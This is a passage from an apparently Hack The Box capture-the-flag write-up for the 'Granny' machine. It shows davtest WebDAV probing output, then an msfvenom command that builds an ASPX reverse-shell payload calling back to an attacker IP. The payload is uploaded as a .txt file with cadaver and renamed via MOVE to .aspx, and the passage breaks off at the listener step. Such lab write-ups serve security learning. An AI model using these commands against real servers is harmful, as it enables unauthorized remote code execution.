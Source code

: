 ```bash
PUT     cfm     SUCCEED:        http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.cfm
PUT     shtml   FAIL
PUT     txt     SUCCEED:        http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.txt
PUT     aspx    FAIL
PUT     html    SUCCEED:        http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.html
********************************************************
 Checking for test file execution
EXEC    pl      FAIL
EXEC    php     FAIL
EXEC    jsp     FAIL
EXEC    jhtml   FAIL
EXEC    cfm     FAIL
EXEC    txt     SUCCEED:        http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.txt
EXEC    html    SUCCEED:        http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.html

********************************************************
/usr/bin/davtest Summary:
Created: http://granny.htb/DavTestDir_01SI88JBfR
PUT File: http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.pl
PUT File: http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.php
PUT File: http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.jsp
PUT File: http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.jhtml
PUT File: http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.cfm
PUT File: http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.txt
PUT File: http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.html
Executes: http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.txt
Executes: http://granny.htb/DavTestDir_01SI88JBfR/davtest_01SI88JBfR.html
```

We have permissions to write files with extensions of `.txt` and `.html`. But we can't accomplish much with this. We have `MOVE` enabled. So what if we create a `shell.txt` file and move it to `shell.aspx`?

## User Shell (Method 1 Webdav PUT/MOVE)

### Cadaver

`cadaver` is a tool that can be used to interact with `webdav` to upload and move files.

1. Create a `aspx` using `msfvenom`

    ```bash
    kali@kali:~/Desktop/htb/granny$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=8082  -f aspx -o shell.aspx
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 324 bytes
    Final size of aspx file: 2740 bytes
    Saved as: shell.aspx
    ```
2. upload the shell as `txt` file using `cadaver` and move it to `shell.aspx`
    ```bash
    kali@kali:~/Desktop/htb/granny$ cadaver granny.htb
    dav:/> put shell.txt
    Uploading shell.txt to `/shell.txt':
    Progress: [=============================>] 100.0% of 2740 bytes succeeded.
    dav:/> move shell.txt shell.aspx
    Moving `/shell.txt' to `/shell.aspx':  succeeded.
    ```
3. Start a `nc` listener and browse the shell via browser
    ```bash
    kali@kali:~/Desktop/tools/win$ hip
    HTB IP:10.10.14.15/23